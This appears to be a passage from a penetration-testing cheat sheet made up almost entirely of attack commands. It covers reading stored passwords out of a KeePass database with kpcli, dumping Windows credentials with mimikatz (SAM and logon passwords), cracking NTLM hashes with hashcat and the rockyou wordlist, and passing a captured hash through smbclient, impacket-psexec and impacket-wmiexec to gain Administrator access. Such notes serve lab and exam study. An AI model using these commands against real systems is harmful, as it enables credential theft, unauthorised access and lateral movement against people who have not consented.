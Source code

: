 ```bash
# Extract passwords from the KeePass database
kpcli --kdb prova.kdbx
kpcli:/> find .
kpcli:/> show -f 0
kpcli:/> show -f 1
kpcli:/> show -f 2
...
```

## NTLM
### Cracking NTLM

- [NTLM-to-password](https://ntlm.pw/)

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords

cat nelly.hash

hashcat --help | grep -i "ntlm"

hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

### Passing NTLM

```bash
Get-LocalUser

cd C:\tools\
.\mimikatz.exe

privilege::debug
token::elevate
lsadump::sam

smbclient \\\\$IP\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@IP

impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@$IP
```
